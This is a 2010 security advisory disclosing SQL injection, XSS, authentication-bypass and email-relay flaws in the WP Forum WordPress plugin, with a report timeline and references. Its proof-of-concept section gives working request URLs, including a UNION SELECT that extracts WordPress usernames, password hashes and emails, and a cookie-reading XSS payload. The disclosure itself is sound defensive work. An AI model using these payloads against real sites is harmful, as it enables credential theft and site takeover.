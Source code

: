 ```yaml
---
title: Multiple Vulnerabilities in WP Forum (WordPress Plugin)
author: Charles Hooper
comments: true
layout: post
permalink: /blog/multiple-vulnerabilities-in-wp-forum-wordpress-plugin/
has_been_twittered:
  - yes
categories:
  - Advisories
---
```

# 

# Multiple Vulnerabilities in WP Forum (WordPress Plugin)

## 1. Advisory Information

Title: Multiple Vulnerabilities in WP-Forum  
Advisory URL: http://www.charleshooper.net/blog/multiple-vulnerabilities-in-wp-forum-wordpress-plugin/  
Date Published: 12/17/2010  
Vendors Contacted: WordPress. Maintainer of plugin is unreachable.

## 2. Summary

WP Forum is a plugin for the popular blog tool and publishing platform, WordPress.  
The author of WP Forum describes it as a “Simple discussion forum plugin” and  
“easy to use and administer.”

There exist multiple vulnerabilities in WP Forum. Basically, input validation is not  
performed at all resulting in SQL injection, stored XSS, and reflected XSS vulns.

Furthermore, the author wrote the plugin under the assumption that it would only be  
executed within the context of the WordPress administrative panel, thereby neglecting  
to perform proper authentication and authorization.

## 3. Vulnerability Information

Packages/Versions Affected: Probably all, but confirmed only on WP Forum 1.7.8

3a. Type:   SQL Injection \[CWE-89\]  
3a. Impact: Read application data, bypass protection mechanism,  
modify application data. There are multiple SQL injections present  
in WP Forum. The most prominent of which is the SQL injection present  
in the \`group_login\` functionality. Prior to logging in, an attacker  
can retrieve each group’s passwords due to the vulnerability listed  
below (3b).

3b. Type:   Plaintext Storage of a Password \[CWE-256\]  
3b. Impact: Password is easily retrieved from database

3c. Type:   XSS (Stored or Reflected) \[CWE-79\]  
3c. Impact: Execute unauthorized code or commands

3d. Type:   Auth Bypass via Direct Request \[CWE-425\]  
3d. Impact: Many or all of the administrative functions assume they are running  
in the context of the WordPress administrative section. As a result,  
they often do not check that the user is authenticated or authorized  
to perform a particular action. Example functionality includes adding  
or removing forum moderators and deleting forums. This vulnerability  
could lead to information exposure, privilege escalation, or data loss.

3e. Type:   Information Exposure Through Sent Data \[CWE-201\]  
3e. Impact: \`sendmail.php\` discloses users’ email addresses by accepting a user-  
provider “user” variable and returns a hidden  tag containing  
that user’s email address.

3f. Type:   External Control of Assumed-Immutable Web Parameter \[CWE-472\]  
3f. Impact: \`sendmail.php\` accepts user-provided input allowing it to be used as  
an email relay

## 4. PoC & Technical Description

Due to the number of vulnerabilities in this package, I will not discuss each one  
individually. Instead, here are some sample POCs. Many more exploitable vulns exist  
in this package than what I am providing here.

4a. http://path.to/wordpress/?page\_id=&forumaction=group\_login&group\_id=0 UNION SELECT CONCAT\_WS(CHAR(58),user\_login,user\_pass,user\_email) FROM wp\_users LIMIT 1 #  
or (goes for all POCs): http://path.to/wordpress/?forumaction=group\_login&group\_id=0 UNION SELECT CONCAT\_WS(CHAR(58),user\_login,user\_pass,user\_email) FROM wp_users LIMIT 1 #  
4b. N/A  
4c. http://path.to/wordpress/?forumaction=group\_login&group\_id=alert(document.cookie);  
4d. http://path.to/wordpress/wp-content/plugins/wpforum/wp-forum-manage.php?editgroupsubmit=true&group=&groupname=&passwd=  
4e. http://path.to/wordpress/wp-content/plugins/wpforum/sendmail.php?user= (email address will be in HTML source)  
4f. POST ‘submit=true&sender=&email=&message=&subject=&replyto=  
to http://path.to/wordpress/wp-content/plugins/wpforum/sendmail.php (untested)

## 5. Report Timeline

12/10/2010 Initial email sent to WordPress security.  
12/10/2010 Maintainer not yet contacted as project appears abandoned and maintainer  
does not have listed contact information.  
12/17/2010 No reply from WordPress security. Advisory released.

## 6. References

6a. The WordPress Plugin page for WP Forum:

http://wordpress.org/extend/plugins/wpforum/

6b. The WordPress Profile page for the author of the plugin:

http://profiles.wordpress.org/users/fahlstad/

6c. The plugin author’s website:

http://www.fahlstad.se/

## 7. Legalese

This vulnerability report by Charles Hooper < chooper@plumata.com > is  
licensed under a Creative Commons Attribution-NonCommercial-ShareAlike  
3.0 Unported License.

## 8. Signature

Public Key: Obtainable via pool.sks-keyservers.net

